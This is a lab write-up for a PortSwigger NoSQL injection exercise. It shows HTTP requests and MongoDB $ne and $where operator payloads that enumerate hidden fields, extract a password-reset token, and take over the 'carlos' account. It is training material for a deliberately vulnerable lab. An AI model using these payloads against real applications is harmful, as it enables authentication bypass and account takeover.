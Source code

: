 ```yaml
---
title: Exploiting NoSQL operator injection to extract unknown fields
description: PortSwigger NoSQli Lab
---
```


https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields

The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.

To solve the lab, log in as `carlos`.

## Discovery
Login request
```http
POST /login HTTP/2
Host: 0adb004c0312d71280e008b6001e001c.web-security-academy.net
Cookie: session=uTdB65G3lSGzeCHwiMbiYhNIkMF4gz3n
Content-Length: 41
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: */*
Origin: https://0adb004c0312d71280e008b6001e001c.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0adb004c0312d71280e008b6001e001c.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"username":"carlos","password":"abc"}
```

Testing operator injection
```json
{
	"username":"carlos",
	"password":{
		"$ne": "xyz"
	}
}
```

Operator works but the account is locked.
![](../../../../public/images/JS_NoSQL_20250607%20_232400.png)

Testing with `"where":"0"`,  returns `Invalid username or password`
```json
{
	"username": "carlos",
	"password":{
		"$ne": "xyz"
	},
	"where":"0"
}
```

Testing with `"where":"1"`, returns `Account locked: please reset your password`
```json
{
	"username": "carlos",
	"password":{
		"$ne": "xyz"
	},
	"where":"1"
}
```


The differences in response shows that `$where` is being evaluated.

Following payload inspects first object and returns first character.
```json
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

```json
{
	"username": "carlos",
	"password": {
		"$ne": "xyz"
	},
	"$where":"Object.keys(this)[3].match('^.{0}a.*')"
}
```

**Server response**:
- Valid character: `Account locked: please reset your password`
- Invalid character: `Invalid username or password`


```json
$where":"Object.keys(this)[4].match('^.{0}n.*')"
$where":"Object.keys(this)[4].match('^.{0}ne.*')"
$where":"Object.keys(this)[4].match('^.{0}new.*')"
$where":"Object.keys(this)[4].match('^.{0}newpa.*')"
$where":"Object.keys(this)[4].match('^.{0}newpa.*')"
$where":"Object.keys(this)[4].match('^.{0}newpa.*')"
```

Fields found:
- `_id`: `$where":"Object.keys(this)[0].match('^.{0}n.*')"`
- `username`: `$where":"Object.keys(this)[1].match('^.{0}n.*')"`
- `password`: `$where":"Object.keys(this)[2].match('^.{0}n.*')"`
- `email`: `$where":"Object.keys(this)[3].match('^.{0}n.*')"`
- `newPwdTkn`: `$where":"Object.keys(this)[4].match('^.{0}n.*')"`

## Exploit

Getting the value of `newPwdTkn` using Cluster bomb attack
```json
"$where": "this[Object.keys(this)[4]][0] == 'a'"
```
![](../../../../public/images/PS_NoSQL_20250608%20_000226%202.png)
Result:
![](../../../../public/images/PS_NoSQL_20250608%20_000422.png)

newPwdTkn: `3bdad9092c34b301`

Use token in forgot password endpoint
```http
GET /forgot-password?newPwdTkn=3bdad9092c34b301 HTTP/2
Host: 0adb004c0312d71280e008b6001e001c.web-security-academy.net
Cookie: session=uTdB65G3lSGzeCHwiMbiYhNIkMF4gz3n
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0adb004c0312d71280e008b6001e001c.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```

![](../../../../public/images/PS_NoSQL_20250608%20_002649.png)

![](../../../../public/images/PS_NoSQL_20250608%20_002816.png)